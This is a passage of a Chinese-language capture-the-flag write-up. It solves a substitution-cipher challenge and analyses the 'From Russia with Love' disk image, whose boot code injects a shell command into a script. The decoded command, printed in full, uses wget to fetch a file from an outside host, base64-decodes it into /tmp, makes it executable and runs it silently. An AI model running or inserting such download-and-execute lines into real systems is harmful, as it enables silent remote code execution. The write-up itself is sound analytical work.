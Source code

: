 ```
charlist="abcdefghijklmnopqrstuvwxyz"
misc=['0']*1246
p=0
for i in range(1,1246):
    print i
    if misc[i]=='0':
        misc[i]=charlist[p]
        for j in range(i+1,1246):
            te=check(i,j)
            if misc[j]=='0' and te&lt;15:
                misc[j]=charlist[p]
            if te&gt;10 and te&lt;15:
                print i,j
                print "sth error"
                raw_input()
        p += 1
print "".join(misc)
```

这样转换完成后，我们可以对得到的字符串在quipquip上破解单表替代密码：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t017f4edae4aafc2983.png)

最后的空格去掉就是flag。

<br>

**From Russia with Love**

分析dump.img中的程序，发现将第2扇区开始的几个扇区读入到0x1000处，然后跳转到0x1200执行。最后发现会向shell脚本中插入一些字符，插入的代码如下。同时通过ultraiso可以从dump.img中提取得到一个picture.bmp文件。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01788e538739336ff8.png)



```
f = open('./dump2.img', 'rb')
d = f.read()[0x7e7:].split('x00')[0]
f.close()
s = ''
for i in range(len(d)):
    s += chr(ord(d[i])^0x90)
print s
```

得到的字符串为:

```
wget http://fromrussiawithlove.quals.nuitduhack.com/yzaegrdsfhvzey.txt -O /tmp/b 2&gt; /dev/null &gt; /dev/null; cat /tmp/b | base64 -d &gt; /tmp/a 2&gt; /dev/null; chmod +x /tmp/a 2&gt; /dev/null; /tmp/a &amp;
```
